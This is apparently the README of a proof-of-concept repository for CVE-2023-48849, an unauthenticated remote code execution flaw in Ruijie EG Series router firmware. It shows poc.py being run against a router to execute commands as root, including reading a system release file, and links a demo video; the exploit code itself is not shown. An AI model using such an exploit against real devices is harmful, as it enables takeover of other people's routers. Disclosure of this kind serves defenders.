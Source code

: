 # CVE-2023-48849

Ruijie EG Series Routers firmware <=EG_3.0(1)B11P216 allows unauthenticated attackers to remotely execute arbitrary code due to incorrect filtering.

```
$ python3 poc.py 192.168.1.1 'id'
uid=0(root) gid=0(root)
$ python3 poc.py 192.168.1.1 'grep TARGET /etc/openwrt_release'
DISTRIB_TARGET='mediatek/eg310gh-e'
```

[DEMO](https://youtu.be/_EcT8_9rkNA)
